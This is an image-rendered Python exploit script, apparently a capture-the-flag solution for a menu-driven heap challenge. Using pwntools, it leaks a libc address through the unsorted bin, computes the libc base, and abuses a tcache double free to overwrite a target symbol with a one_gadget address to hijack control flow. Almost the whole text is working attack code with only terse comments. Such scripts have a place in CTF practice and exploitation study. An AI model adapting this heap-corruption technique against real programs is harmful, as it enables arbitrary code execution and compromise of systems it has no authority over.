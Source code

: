 ```python
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda: r.recvline()
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
ru7f = lambda: r.recvuntil(b'\x7f').ljust(8, b'\x00')
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)


def add(size):
  sla('>> ', '1')
  sla('size:\n', str(size))

def edit(idx,data):
  sla('>> ', '2')
  sla('index:\n', str(idx))
  sa('content:\n', data)

def free(idx):
  sla('>> ', '3')
  sla('index:\n', str(idx))

def show(idx):
  sla('>> ', '4')
  sla('index:\n', str(idx))

#double free
add(0x500) # 0 only > 0x500 can in unsort bin?
add(0x8) # 1 -> in tcache
add(0x8) # 2
free(0) # [0]
show(0)
# dbg()

ru('OUTPUT: ')
leak = u64(ru7f())
# leak = rl()
print("this is leak",hex(leak))
# 2.27 leak 
libc.address = leak - 0x3ebca0
logbase()

free(1) # [1,0]
free(2) # [2,1,0] -> double free on idx 1
logleak("magic_library",exe.sym['magic_library'])


edit(2, p64(exe.sym['magic_library']))
add(0x8) # 3 return 2 [1,0]


add(0x8) # 4 return 1 [0]
onegadgets = one_gadget(libc.path, libc.address)
logleak("one_gadget",onegadgets[1])

edit(4, p64(onegadgets[1]))

dbg()

# sla('>> ', '17')
```